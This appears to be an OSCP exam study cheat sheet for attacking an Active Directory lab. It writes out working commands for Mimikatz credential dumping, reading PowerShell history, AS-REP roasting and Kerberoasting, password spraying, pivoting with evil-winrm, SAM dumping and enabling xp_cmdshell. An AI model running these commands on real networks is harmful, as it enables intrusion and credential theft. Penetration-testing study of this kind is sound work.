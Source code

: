 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# OSCP

## 🪟 AD Part

1. `MS01` → enumerate, setup pivot, PE

## 🚀 MS01 PE

* [x] <mark style="background-color:yellow;">Check user's privileges</mark>:

```powershell
whoami /priv
```

→ `SeImpersonatePrivilege` → [escalate to LA](https://x7331.gitbook.io/boxes/tl-dr/active-directory/privileges/seimpersonateprivilege)

* [x] <mark style="background-color:yellow;">Look for custom binaries</mark>:&#x20;

→ `strings` locally&#x20;

→ [Binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking

### 2. Pillaging



* Dump credentials with Mimikatz:

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```

* Check PowerShell history:

```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate the path
(Get-PSReadlineOption).HistorySavePath
# List its contents
cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* Enumerate domain users and build a wordlist

```
$ nxc smb 192.168.X.X -u <user> -p <pass> --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" {print $5}' > domain_users
```

* Enumerate SMB shares

```
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```

* Check for [AS-REP Roasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/asreproasting):

```
impacket-GetNPUsers oscp.exam/ -dc-ip 10.10.X.X -no-pass -usersfile domain_users
hashcat -m 18200 asreproast_users /usr/share/wordlists/rockyou -r /usr/share/hashcast/rules/best64.rule --force
```

* Check for [Kerberoasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/kerberoasting):

```
impacket-GetUserSPNs -request -dc-ip 10.10.X.X oscp.exam/<user>
hashcat -m 13100 kerberoast_users /usr/share/wordlist/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

* Password spray the domain to enumerate valid accounts and remote access:

```
nxc smb domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc winrm domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc rdp domain_ips -u domain_users -p passwords --continue-on-success | grep +
```

### 2. Pivot to MS02



* Use sprayed creds to check access via WinRM or RDP:

```
evil-winrm -u <user> -p <pass> -i <MS02>
xfreerdp /u:<user> /p:<pass> /v:<MS02> /smart-sizing
```

### 3. Enumerate MS02



* Check for `C:\windows.old` folder → [dump SAM and SYSTEM locally](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/local-sam-dump):

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

* Look for custom binaries → download and run `strings` to extract creds, check for [binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking
* Check local sockets:

```
netstat -ano
```

* Check [PowerShell history](https://x7331.gitbook.io/boxes/tl-dr/infra/windows#files):

```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate the path
(Get-PSReadlineOption).HistorySavePath
# List its contents
cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* if `sql_svc` is owned, interact via Impacket or NetExec:

```
# Impacket
mssqlclient.py <domain>/<user>@<host> -windows-auth
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';

# NXC
# Remote queries
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
# System RCE via xp_cmdshell
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```

* Pass-spray all discovered creds
